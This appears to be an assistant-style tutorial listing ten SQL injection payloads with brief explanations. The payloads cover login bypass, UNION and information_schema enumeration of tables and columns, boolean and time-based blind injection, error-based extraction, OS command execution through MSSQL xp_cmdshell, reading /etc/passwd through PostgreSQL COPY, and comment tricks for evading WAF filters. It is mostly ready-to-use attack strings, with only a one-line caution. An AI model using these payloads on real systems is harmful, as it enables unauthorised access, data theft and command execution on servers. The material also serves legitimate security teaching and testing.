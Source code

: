 Here are more SQL Injection payloads with detailed explanations, categorized by technique and purpose. This can help you better understand how and why each payload works.


---

1. Basic Authentication Bypass

Payload:

' OR '1'='1' --

Explanation:

' OR '1'='1' always evaluates to true.

-- comments out the rest of the SQL query.

Effective on login forms like:

SELECT * FROM users WHERE username = '' OR '1'='1' -- ' AND password = ''



---

2. Union-Based Injection

Payload:

' UNION SELECT null, version(), user() --

Explanation:

Combines result sets using UNION.

version() returns the DB version, user() returns current DB user.

null placeholders match the column count.

Used in pages that reflect query output (like search or profile).



---

3. Information Schema Discovery (MySQL)

Payload:

' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema=database() --

Explanation:

Extracts table names from the current database.

information_schema.tables is a metadata table.

table_schema=database() filters for the current DB only.



---

4. Blind Boolean-Based

Payloads:

' AND 1=1 --   → returns true (page loads normally)
' AND 1=2 --   → returns false (different behavior)

Explanation:

No visible data returned, but application behavior changes.

Useful when you can't see query results but can infer logic from response differences.



---

5. Time-Based Blind (MySQL)

Payload:

' OR IF(SUBSTRING(@@version,1,1)='5', SLEEP(5), 0) --

Explanation:

If condition is true (DB version starts with '5'), server pauses for 5 seconds.

Confirms conditions based on server response delay.

Used when there’s no visual feedback.



---

6. Error-Based Extraction (MySQL)

Payload:

' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), FLOOR(RAND()*2)) x FROM information_schema.tables GROUP BY x) a) --

Explanation:

Triggers a duplicate key error by forcing a GROUP BY with non-unique values.

Error message will include the CONCAT() output (e.g., DB name).

Works when error messages are exposed.



---

7. Extracting Column Names

Payload:

' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users' --

Explanation:

Enumerates column names from the users table.



---

8. MSSQL Stacked Queries

Payload:

'; EXEC xp_cmdshell('whoami'); --

Explanation:

Runs OS commands on vulnerable MSSQL servers (if xp_cmdshell is enabled).

Use cautiously and legally.



---

9. PostgreSQL Read File Example

Payload:

'; COPY users FROM '/etc/passwd'; --

Explanation:

Reads a file into a table (if permissions allow).



---

10. Bypassing Filters

Payload:

'/**/OR/**/1=1--
' OR 1=1 LIMIT 1 OFFSET 1 --

Explanation:

Uses comments (/**/) to evade WAFs.

LIMIT/OFFSET for pagination attacks or avoiding duplicates.



---



